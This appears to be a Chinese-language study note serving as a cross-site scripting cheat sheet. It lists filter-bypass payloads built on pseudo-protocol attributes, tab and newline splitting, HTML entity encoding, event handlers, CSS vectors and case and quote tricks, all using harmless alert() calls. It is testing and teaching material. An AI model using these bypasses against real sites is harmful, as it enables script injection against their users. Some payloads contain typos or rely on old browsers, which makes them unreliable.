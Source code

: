 ```yaml
---
title: "XSS"
date: 2016-01-20 21:38
---
```


## xss cheat sheet

xss cheat sheet 即测试xss的测试样表

```
<script>alert(1);</script>
<script>alert('xss');</script>
```

## xss 过滤绕过

* <> 

```
<scirpt>alert(1);</script>
```

对 <> 或 < script > 进行过滤或转义，可以防御此类xss 

* HTML标签属性执行XSS

很多HTML标签属性支持 javascipt:[code] 伪协议的形式。这个协议类型声明了URL的主体是任意的JavaScript代码，由javascript的解释器运行

```
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss');">
```

> 并不是所有的浏览器都支持javascript伪协议

并不是所有的标记的属性都可以产生XSS，通常只有引用文件的属性才能触发XSS。

```
href=
lowsrc=
bgsound=
background=
value=
action=
dynsrc=
```

* 空格 换行 Tab

```
<img src="javas cript:alert(/xss/)" width=100>
```

> javas 和 cript是Tab

关键字拆分绕过过滤限制，使用Tab, 空格， 换行。原因分析如下：

javascript语句通常以分号结尾，如果一个语句是完整的，而这一行的结尾是换行符，就可以省略分号。如果同一行中有过个语句，则每个语句就必须使用分号来结束(最后一条语句可以不用分号)

```
var a = true
var b = "something";
```

除了在引号中分隔单词或强制结束语句外，额外的空白无论以何种方式添加都无所谓。

```
<img src="javas
cript:
alert(/xss/)">
```

换行处不是一个完整语句时，js会继续处理发现的内容，直到遇到一个分号或发现完整的语句为止

* 标签属性值转码

编码绕过，HTML标记的属性值过滤，HTML **属性** 本身支持ASCII码形式, 转码支持十进制和十六进制。

可以在十进制（十六进制）字符后面加 **;**, 还可以在前面加0, 如

```
&#0
&#00
&#000
&#0000
```

```
<img src="a" onerror="aler&#116(/xss/)">
<img src=1 onerror="aler&#116;(/xss/)">
<img src="a" onerror="&#97&#108&#101&#114&#116&#40&#47&#120&#115&#115&#47&#41">
<img src="a" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#47;&#120;&#115;&#115;&#47;&#41;">
<img src="a" onerror="&#x61&#x6c&#x65&#x72&#x74&#x28&#x2f&#x78&#x73&#x73&#x2f&#x29">
<img src="a" onerror="&#000097&#000108&#000101&#000114&#000116&#000040&#000047&#000120&#000115&#000115&#000047&#000041">
<img src="a" onerror="&#97&#108&#101&#114&#116&#32&#40&#47&#120&#115&#115&#47&#41">
```

注：

```
Tab(&#9), 换行符(&#10), 空格(&#32)可以被插入到代码中任意地方。
```

* 产生自己的事件

当不能依靠属性进行跨站时，可以使用事件。js和HTML之间的交互是通过事件来实现的，事件就是用户或浏览器自身执行的某种动作，如click, load等，而响应事件的函数叫做事件处理函数（或事件侦听器）。

W3C将事件分为3个不同的类别：

```
用户接口(鼠标，键盘)
逻辑（处理的结果）
变化（对文档进行修改）
```

测试事件型xss:

```
onResume
onReverse
onRowDelete
onRowInserted
onSeek
onSynchRestored
onTimeError
onTrackChange
onURLFlip
onRepeat
onMediaComplete
onMediaError
onPause
onProgress
onOutOfSync
onlayoutcomplete
onafterprint
onbeforeprint
ondataavailable
ondatasetchanged
ondatasetcomplete
onerrorupdate
onrowenter
onrowexit
onrowsdelete
onrowsinserted
onselectionchange
onbounce
onfinish
onstop
onresizeend
```

* CSS 跨站剖析

xss另一个载体是CSS样式表，使用CSS样式表执行js具有隐蔽，灵活多变等特点，但其有个很大的缺点：各浏览器之间不能通用，甚者可能同一浏览器不同版本之间都不能通用

```
<div style="background-img:url(javascript:alert('xss'))">
<style>
    body {background-image: url{"javascript:alert('xss')"};}
</style>
```


## 常见绕过

```
# 大小写转换
<IMG sRc="a" onerror="alert(/xss/)">
# 单引号
<img src="a" onerror='alert(/xss/)'>
# 不用引号
<img src="a" onerror=alert(/xss/)>
# / 隔开
<img/src="a"/onerror="alert(/xss/)">
# /**/
<img/**/src="a"/**/onerror=alert(/xss/)>
```